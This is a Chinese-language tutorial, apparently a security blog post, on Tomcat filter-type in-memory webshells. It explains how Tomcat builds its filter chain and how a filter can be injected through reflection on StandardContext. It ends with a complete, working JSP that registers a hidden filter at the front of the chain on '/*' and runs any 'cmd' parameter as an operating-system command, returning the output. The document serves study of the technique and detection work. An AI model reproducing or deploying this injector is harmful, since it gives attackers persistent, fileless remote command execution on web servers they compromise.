内存马主要分为以下几类：

1. servlet-api类
   - filter型
   - servlet型
2. spring类
   - 拦截器
   - controller型
3. Java Instrumentation类
   - agent型

### fileter型内存马

在学习过Servlet之后我们知道，Filter 程序是一个实现了特殊接口的 Java 类，与 Servlet 类似，也是由 Servlet 容器进行调用和执行的。一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet。

对于一个Servlet其启动流程如下：



StandardEngine启动后调用StandardHost、再调用StandardContext。在StandardContext.startInternal()中可以看到，加载流程是Listener-Filter-Servlet





也就是说，如果我们能动态注册一个filter并在其中添加恶意代码，那么在服务启动时就会先执行filter再到Servlet，由此便可以达到命令执行的效果，也就是我们所说的内存马。

### fileter流程浅析

在此之前先了解一下filter的一些核心类：

**Filter**过滤器接口一个 Filter 程序就是一个 Java 类，这个类必须实现 Filter  接口。javax.servlet.Filter 接口中定义了三个方法：init(Web 容器创建 Filter 的实例对象后，将立即调用该  Filter 对象的 init 方法)、doFilter(当一个 Filter 对象能够拦截访问请求时，Servlet 容器将调用 Filter 对象的 doFilter 方法)、destory(该方法在 Web 容器卸载 Filter 对象之前被调用)。

**FilterDefs**：存放FilterDef的数组 ，**FilterDef** 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息

**FilterConfigs**：存放filterConfig的数组，在 **FilterConfig** 中主要存放 FilterDef 和 Filter对象等信息

**FilterMaps**：存放FilterMap的数组，在 **FilterMap** 中主要存放了 FilterName 和 对应的URLPattern

**FilterChain**：过滤器链，该对象上的 doFilter 方法能依次调用链上的 Filter

**WebXml**：存放 web.xml 中内容的类

**ContextConfig**：Web应用的上下文配置类

**StandardContext**：Context接口的标准实现类，一个 Context 代表一个 Web 应用，其下可以包含多个 Wrapper

**StandardWrapperValve**：一个 Wrapper 的标准实现类，一个 Wrapper 代表一个Servlet

简单实现一个过滤器：

```java
import javax.servlet.*;
import java.io.IOException;

public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("filter初始化");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        System.out.println("doFilter过滤");
        //放行
        chain.doFilter(request,response);
    }

    @Override
    public void destroy() {
        System.out.println("destroy filter");

    }
}
```

配置xml

```xml
  <filter>
        <filter-name>TestFilter</filter-name>
        <filter-class>TestFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>TestFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```


#### 从Standardcontext获取filterMaps

首先在 StandardWrapperValve 中利用 ApplicationFilterFactory 创建filterChain



跟进，首先会调用 getParent 获取当前 Context （即当前 Web应用），然后会从 Context 中获取到 filterMaps



其中存储了每个filter的信息



#### 遍历filterMap匹配url至filterChain

遍历 FilterMaps 中的 FilterMap，判断请求的url和Filter中需要拦截的正则表达式是否匹配，若匹配则调用 findFilterConfig 方法在 filterConfigs 中寻找对应 filterName名称的 FilterConfig，如果不为null，则将 filterConfig 添加到  filterChain中



filterConfig存储了filterDef定义和filter信息



跟进addFilter函数



首先去除重复的过滤器配置，之后对filter配置数组扩容，一次扩10个长度，最后将其加入数组

至此 filterChain 组装完毕，回到 StandardContextValue 中，依次调用 filterChain 的 doFilter 方法 

#### 依次调用doFilter



该方法实际调用internalDoFilter方法



跟进



循环filterchain调用了各个filter的dofilter方法

引用宽字节安全师傅图总结：



最开始是从 context 中获取的 FilterMaps，将符合条件的依次按照顺序进行调用，那么我们可以自己创建一个  FilterMap 然后将其放在 FilterMaps 的最前面，这样当 urlpattern 匹配的时候就回去找到对应 FilterName 的 FilterConfig ，然后添加到 FilterChain 中，最终触发我们的内存shell

### 内存马实现

根据刚刚的流程我们关注到context变量，也就是StandardContext的三个成员变量


StandardContext为web应用上下文变量，其中有三个成员变量和filter相关

- filterMaps：一个HashMap对象，包含过滤器名字和URL映射

  对应web.xml

  ```xml
  <filter-mapping>
          <filter-name>TestFilter</filter-name>
          <url-pattern>/*</url-pattern>
      </filter-mapping>
  ```

- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射

  对应web.xml

  ```xml
   <filter>
          <filter-name>TestFilter</filter-name>
          <filter-class>TestFilter</filter-class>
      </filter>
  ```

- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs

注入内存马实际上是模拟了在web.xml中写配置的过程，两者是一一对应的。也就是说，我们注入内存马的条件就是需要在不能直接操控web.xml或者WebFilter注解注册的情况下添加一个新的自定义FIlter

综上所述，如果要实现filter型内存马要经过如下步骤：

- 创建恶意filter
- 用filterDef对filter进行封装并添加到filterDefs
- 将filterDefs添加filterConfigs中
- 创建一个新的filterMap将URL跟filter进行绑定，并添加到filterMaps中

要注意的是，因为filter生效会有一个先后顺序，所以一般来讲我们还需要把我们的filter给移动到FilterChain的第一位去。

每次请求createFilterChain都会依据此动态生成一个过滤链，而StandardContext又会一直保留到Tomcat生命周期结束，所以我们的内存马就可以一直驻留下去，直到Tomcat重启。

#### 获取context

当我们能直接获取 request 的时候，可以利用Servlet提供的方法`request.getSession().getServletContext()`获取servletContext



这里获取到的是ApplicationContextFacade，它封装了ApplicationContext实现了ServletContext接口，然后ApplicationContext封装了StandardContext，我们可以通过两次反射调用拿到StandardContext

```java
ServletContext servletContext = request.getSession().getServletContext();

Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);	// private
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

#### 用filterDef对filter进行封装并添加到filterDefs

filterDef自身提供了set方法且为public



StandardContext也提供了添加FilterDefs的方法



因此在注册恶意filter之后我们可以方便的将其添加到FilterDefs

```java
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);
```

#### 将filterDefs添加filterConfigs中

利用反射创建 FilterConfig，并且将 filterDef 和 standardCtx（即 Context）作为参数进行传入

```java
 Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
 constructor.setAccessible(true);
 ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
```

向filterConfigs调用Map.put传入即可

```java
filterConfigs.put(name,filterConfig);
```

#### 创建一个新的filterMap将URL跟filter进行绑定，并添加到filterMaps中

FilterMap类同样有几个set方法，我们需要设定名称、pattern，还需要设置Dispatcher，这里我们设置`DispatcherType.REQUEST.name()`即可



FilterMaps提供了两种add方法来添加map，addFilterMap和addFilterMapBefore，选用before可以将filtermap 添加到 filterMaps 中的第一个位置

```java
 FilterMap filterMap = new FilterMap();
 filterMap.addURLPattern("/*");
 filterMap.setFilterName(name);
 filterMap.setDispatcher(DispatcherType.REQUEST.name());

standardContext.addFilterMapBefore(filterMap);
```

需要注意的是这里用到的 `javax.servlet.DispatcherType`类是servlet 3 以后引入的，而 Tomcat 7以上才支持 Servlet 3

#### 内存马实例

最终内存马

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
  final String name = "Snakin";
  ServletContext servletContext = request.getSession().getServletContext();

  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

  Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
  Configs.setAccessible(true);
  Map filterConfigs = (Map) Configs.get(standardContext);

  if (filterConfigs.get(name) == null){
    Filter filter = new Filter() {
      @Override
      public void init(FilterConfig filterConfig) throws ServletException {

      }

      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
          byte[] bytes = new byte[1024];
          Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
          int len = process.getInputStream().read(bytes);
          servletResponse.getWriter().write(new String(bytes,0,len));
          process.destroy();
          return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
      }

      @Override
      public void destroy() {

      }

    };

    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);

    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    standardContext.addFilterMapBefore(filterMap);

    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

    filterConfigs.put(name,filterConfig);
    out.print("Inject Success !");
  }
%>
```

本地起一个servlet服务即可




参考：

https://mp.weixin.qq.com/s/YhiOHWnqXVqvLNH7XSxC9w

http://wjlshare.com/archives/1529

https://github.com/Y4tacker/JavaSec/blob/main/5.%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/Tomcat/Tomcat-Filter%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Filter%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC.md

https://paper.seebug.org/1441/#tomcat

https://ho1aas.blog.csdn.net/article/details/123561053